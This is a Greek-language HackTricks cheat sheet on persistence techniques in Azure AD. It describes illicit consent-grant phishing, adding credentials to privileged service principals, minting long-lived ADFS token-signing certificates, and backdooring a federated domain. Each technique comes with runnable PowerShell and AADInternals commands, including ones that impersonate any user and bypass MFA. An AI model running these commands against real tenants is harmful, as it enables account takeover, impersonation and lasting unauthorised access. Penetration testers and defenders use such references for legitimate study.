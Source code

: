 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### Παράνομη Χορήγηση Συγκατάθεσης

Από προεπιλογή, οποιοσδήποτε χρήστης μπορεί να καταχωρήσει μια εφαρμογή στο Azure AD. Έτσι, μπορείτε να καταχωρήσετε μια εφαρμογή (μόνο για τον στοχοθετημένο ενοικιαστή) που χρειάζεται δικαιώματα υψηλής επιρροής με συγκατάθεση διαχειριστή (και να την εγκρίνετε αν είστε ο διαχειριστής) - όπως η αποστολή email εκ μέρους ενός χρήστη, η διαχείριση ρόλων κ.λπ. Αυτό θα μας επιτρέψει να **εκτελέσουμε επιθέσεις phishing** που θα ήταν πολύ **κερδοφόρες** σε περίπτωση επιτυχίας.

Επιπλέον, θα μπορούσατε επίσης να αποδεχθείτε αυτή την εφαρμογή με τον χρήστη σας ως έναν τρόπο διατήρησης πρόσβασης σε αυτήν.

### Εφαρμογές και Υπηρεσίες Principals

Με προνόμια Διαχειριστή Εφαρμογών, GA ή έναν προσαρμοσμένο ρόλο με δικαιώματα microsoft.directory/applications/credentials/update, μπορούμε να προσθέσουμε διαπιστευτήρια (μυστικό ή πιστοποιητικό) σε μια υπάρχουσα εφαρμογή.

Είναι δυνατόν να **στοχεύσουμε μια εφαρμογή με υψηλά δικαιώματα** ή **να προσθέσουμε μια νέα εφαρμογή** με υψηλά δικαιώματα.

Ένας ενδιαφέρον ρόλος για να προστεθεί στην εφαρμογή θα ήταν ο **ρόλος διαχειριστή προνομιακής αυθεντικοποίησης** καθώς επιτρέπει να **επαναφέρετε τον κωδικό πρόσβασης** των Παγκόσμιων Διαχειριστών.

Αυτή η τεχνική επιτρέπει επίσης να **παρακαμφθεί το MFA**.
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Για την αυθεντικοποίηση με βάση το πιστοποιητικό
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

Με **δικαιώματα DA** σε on-prem AD, είναι δυνατόν να δημιουργήσουμε και να εισάγουμε **νέα πιστοποιητικά υπογραφής Token** και **πιστοποιητικά αποκρυπτογράφησης Token** που έχουν πολύ μεγάλη διάρκεια ισχύος. Αυτό θα μας επιτρέψει να **συνδεθούμε ως οποιοσδήποτε χρήστης** του οποίου το ImuutableID γνωρίζουμε.

**Εκτελέστε** την παρακάτω εντολή ως **DA στον ADFS server(s)** για να δημιουργήσετε νέα πιστοποιητικά (προεπιλεγμένος κωδικός πρόσβασης 'AADInternals'), να τα προσθέσετε στο ADFS, να απενεργοποιήσετε την αυτόματη ανανέωση και να επανεκκινήσετε την υπηρεσία:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Στη συνέχεια, ενημερώστε τις πληροφορίες πιστοποίησης με το Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Ομοσπονδία - Εμπιστευμένος Τομέας

Με δικαιώματα GA σε έναν ενοικιαστή, είναι δυνατόν να **προσθέσετε έναν νέο τομέα** (πρέπει να επαληθευτεί), να ρυθμίσετε τον τύπο αυθεντικοποίησής του σε Ομοσπονδία και να ρυθμίσετε τον τομέα να **εμπιστεύεται ένα συγκεκριμένο πιστοποιητικό** (any.sts στην παρακάτω εντολή) και εκδότη:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Αναφορές

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
